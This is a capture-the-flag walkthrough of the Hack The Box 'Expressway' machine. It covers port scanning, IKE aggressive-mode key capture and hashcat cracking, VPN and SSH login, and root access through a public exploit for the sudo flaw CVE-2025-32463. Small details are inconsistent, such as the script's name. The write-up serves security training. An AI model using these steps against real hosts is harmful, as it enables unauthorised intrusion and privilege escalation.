 ```yaml
---
name: Expressway
difficulty: easy
os: linux
platform: htb
date: 2025/09/21
releasedDate: 2099-12-31
userFlag: true
rootFlag: true

img: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/75c168f01f04e5f256838733b77f13ec.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.87 -oN allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```


Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p22 -sCV 10.10.11.87 -oN targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
```

It seems that there is only SSH port open on TCP. It's version it is quite recent, so we will try enumerating UDP.

We scan the target machine for open UDP ports using Nmap. We will use the `-sU` option to scan UDP ports :
```bash
sudo nmap -p- -sU --min-rate 5000 -vvv -Pn -n 10.10.11.87 -oN allPortsUDP
```
```
PORT    STATE SERVICE
500/udp open  isakmp
```

We use `ike-scan` to enumerate the IKE service on UDP port 500:
```bash
sudo ike-scan -A 10.10.11.87
```
```
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87	Aggressive Mode Handshake returned 
    HDR=(CKY-R=74ed959da9a03d23) 
    SA=(
        Enc=3DES 
        Hash=SHA1 
        Group=2:modp1024 
        Auth=PSK 
        LifeType=Seconds 
        LifeDuration=28800
    ) 
    KeyExchange(128 bytes) 
    Nonce(32 bytes) 
    ID(Type=ID_USER_FQDN, 
    Value=ike@expressway.htb) 
    VID=09002689dfd6b712 
    (XAUTH) 
    VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) 
    Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.053 seconds (18.91 hosts/sec).  1 returned handshake; 0 returned notify
```

We find out the server is using Aggressive Mode with PSK authentication. We also get `ike` which looks like a system user.

We use `-P` option to output the aggressive mode pre-shared key (PSK) parameters for offline cracking  using  the  `psk-crack`  program  that is supplied with ike-scan.
```bash
sudo ike-scan -Ppsk.txt -A 10.10.11.87
```

The output is saved in `psk.txt` file and can be cracked using `psk-crack` or `hashcat` and a wordlist like `rockyou.txt`:
```bash
hashcat -m 5400 psk.txt /usr/share/wordlists/rockyou.txt
```

This will give us the PSK `freakingrockstarontheroad`.

Next, we will connect to the VPN using `strongswan`. First, we need to create a configuration file `/etc/ipsec.conf`:
```bash
config setup
    charondebug="ike 2, knl 2, cfg 2"
    uniqueids=no

conn ikev1
    keyexchange=ikev1
    authby=psk
    ike=aes256-sha1-modp1024!
    esp=aes256-sha1!
    left=%defaultroute
    leftid=ike@expressway.htb
    right=10.10.11.87
    rightid=ike@expressway.htb
    rightsubnet=0.0.0.0/0
    auto=start
```

We also need to add the PSK to `/etc/ipsec.secrets`:
```bash
ike@expressway.htb : PSK "freakingrockstarontheroad"
```
We can now start the VPN connection using `ipsec`:
```bash
sudo ipsec restart
sudo ipsec up ikev1
```
```
initiating IKE_SA ikev1[1] to 10.10.11.87
generating IKE_AUTH request 1 [ IDi N(INITIAL_CONTACT) N(AUTH) N(ADDR) N(MOBIKE_SUP) ]
sending packet: from
<your_ip_address>[500] to
```

We can now try connecting via SSH using the `ike` user and the PSK as password:
```bash
ssh ike@10.10.11.87
whoami
```
```
ike
```

We have successfully logged in as the `ike` user. Now we can check the home directory for the user flag:
```bash
cat /home/ike/user.txt
```
```
user flag value
```


## Root Exploitation

We check the `sudo` version:
```bash
sudo -V
```
```
Sudo version 1.9.17
```

We look for possible vulnerabilities in this version online and find CVE-2025-32463.

We copy the exploit from https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/

We run the exploit to get a root shell:
```bash
chmod +x sudo_chwoot.sh
./sudo.chwoot.sh
```
```
woot!
```

Now, we have a root shell:
```bash
whoami
cat /root/root.txt
```
```
root
root flag value
```

## Conclusion

We have successfully exploited the Expressway machine and obtained both user and root flags. The key steps involved enumerating the IKE service, cracking the PSK, connecting via VPN, and exploiting a sudo vulnerability to gain root access. 
